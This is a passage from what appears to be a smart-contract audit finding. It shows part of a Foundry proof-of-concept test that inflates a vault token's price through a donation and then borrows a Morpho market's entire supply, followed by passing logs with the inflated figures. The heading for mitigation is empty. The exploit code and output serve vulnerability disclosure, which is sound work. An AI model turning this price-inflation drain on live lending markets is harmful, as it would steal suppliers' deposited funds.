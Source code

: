 ```solidity
        maxBorrow = position.collateral * y.price() / 1e36;
        console.log("Max borrow after donation: ", maxBorrow);

        console.log("Effective supply after donation: ", y.effectiveSupply());
        console.log("Price after donation: ", y.price());

        Id idx = Id.wrap(keccak256(abi.encode(marketParams)));
        Market memory market = MORPHO.market(idx);
        console.log("Total supplied", market.totalSupplyAssets);
        console.log("Total borrowed", market.totalBorrowAssets);

        uint256 borrowable = market.totalSupplyAssets - market.totalBorrowAssets;
        console.log("Borrowable is", borrowable);

        MORPHO.borrow(marketParams, borrowable, 0, tapir, tapir);
        console.log("Effective supply after borrow: ", y.effectiveSupply());

        position = MORPHO.position(idx, tapir);
        console.log("collateral", position.collateral);
        console.log("borrowShares", position.borrowShares);

        maxBorrow = position.collateral * y.price() / 1e36;
        uint canBorrow = maxBorrow - position.borrowShares;
        console.log("Can borrow is", canBorrow); // STILL EXTREMELY HIGH! 
    }
```

Logs:
Ran 1 test for tests/TestSingleSidedLPStrategyImpl.sol:Test_LP_Curve_sDAI_sUSDe
[PASS] test_Drain_MorphoSuppliers_ByInflationDonation() (gas: 2739684)
Logs:
  Asset is USDC
  Effective supply before initiate withdraw:  8724580706403393214704000000
  Price before initiate withdraw:  1145196000000000000
  Max borrow is:  9991354926
  Max borrow after initiate withdraw:  9991354926
  Effective supply after initiate withdraw:  1000000
  Price after initiate withdraw:  1145196000000000000
  Yield token of the vault:  MtEthena-gauge
  Max borrow after donation:  9991362815231220073495623667
  Effective supply after donation:  1000000
  Price after donation:  1145196904178796121145196000000000000 // HUGE
  Total supplied 500000000000
  Total borrowed 0
  Borrowable is 500000000000
  Effective supply after borrow:  1000000
  collateral 8724580706403393214703000000
  borrowShares 500000000000000000
  Can borrow is 9991362814731220073495623667

### Mitigation
